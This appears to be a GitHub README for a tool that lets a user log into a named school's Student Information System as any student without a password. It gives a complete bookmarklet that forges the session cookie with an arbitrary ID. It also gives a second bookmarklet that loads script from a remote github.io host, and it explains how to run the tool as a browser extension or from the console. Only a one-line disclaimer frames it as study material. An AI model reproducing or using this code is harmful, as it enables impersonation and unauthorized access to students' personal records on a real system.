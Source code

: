 # XueWu System

***Zhuang ShengLi Database Presented***

A system written in Javascript that allows users to log in into Student Information System with any identity without password.

## Running It

There are 3 ways to run the script

1. Running using `javascipt:` URL
	1. Copy the following URL:
      - Offline Edition
      	```url
	      javascript:(function(){/*XueWu System Core Javascript. (C)opyright 2024 KCISHackers. All Rights reserved. Visit: https://www.github.com/KCISHacker/XueWuSystem for more info.*/function hack(id){var date=new Date();date.setTime(date.getTime()+3600000);for(let i=0;i<100;i++)var oldest_time=new Date(0);for(let i=0;i<100;i++)document.cookie='cookie'+i+'=0;expires='+oldest_time.toUTCString();document.cookie="DSAI="+id+";expires="+date.toGMTString()+";path=/";fetch(window.location.origin+'/DSAI/Query/Form_ListDetention?strKeyWord1=').then(response=>response.json()).catch(error=>(function(){console.error(error);if(error.name=='SyntaxError'){alert(id+' seems not exist. Check your spelling.');return;}alert("Error while hacking "+id+"! "+error);successed=false;}()))}console.log("Hello from XueWuSystem: Ciallo～(∠・ω< )⌒★");console.log("Visit: https://www.github.com/KCISHacker/XueWuSystem for more info");if(document.getElementById("hacked")){alert('This page had already been hacked! Do not run twice!');}document.getElementsByClassName("main_logout")[0].innerText="hacked by 学武系统hacker";document.getElementsByClassName("ui-input-text ui-body-inherit ui-corner-all ui-shadow-inset")[1].innerHTML="<div style=\"color:red\">This program is for learning reference only, rather than abusing, or you'll take the risk!</div>";document.getElementById("UserId").addEventListener("keyup",function(event){if(event.keyCode===13){event.preventDefault();btn_onclick();}});document.getElementsByName('btn_s')[0].removeEventListener("click", function(){});function btn_onclick(){if(document.getElementById("UserId").value==''){alert('Username field cannot be empty!');return;}hack(document.getElementById("UserId").value);window.location.href="/DSAI/Home";}document.getElementsByName('btn_s')[0].addEventListener("click",btn_onclick);document.body.innerHTML += '<div id="hacked"></div>';}())
      	```
      - Online Edition (Need to access to github.io, but shorter)
        ```url
        javascript:(function(){var s=document.createElement('script'),ss='https://kcishacker.github.io/res/XueWu.js';s.src=ss;document.body.appendChild(s);}())
        ```
      
      2. Visit this URL when you are browsing [Student Information System Log In Page](https://portal.kcisec.com/China/Account/LogIn) tab.
      
      3. You can save this URL as a bookmark and use it anytime.

2. Installing as a browser extension  (may not work on Safari or FireFox):
   
   1. Go to [Extension Setting](about://extensions) page in your brower .
   
   2. Enable `Developer Mode` (It should appear somewhere on the page).
   
   3. After enabling this options, you should see a `Load Unpackaged` button on the page.
   
   4. Click it and specify the path of the folder `Chrome Extension` contained in the Git repository.
   
   5. It is now installed on your brower. Do not move, rename, or delete the `Chrome Extension` folder after installation.

3. Running the script manually:
   
   1. Open the JavaScript file named "core.js" from the Git repository.
   2. The file contains comments explaining the purpose of each function.
   3. Try running the functions in the <a href="https://en.wikipedia.org/wiki/Web_development_tools">Developer Tools</a> Console of your browser while on the [Student Information System Log In Page](https://portal.kcisec.com/China/Account/LogIn).

## License

MIT License

Copyright (c) 2024 KCISHackers

Permission is hereby granted, free of charge, to any person obtaining a copy of this software and associated documentation files (the "Software"), to deal in the Software without restriction, including without limitation the rights to use, copy, modify, merge, publish, distribute, sublicense, and/or sell copies of the Software, and to permit persons to whom the Software is furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.
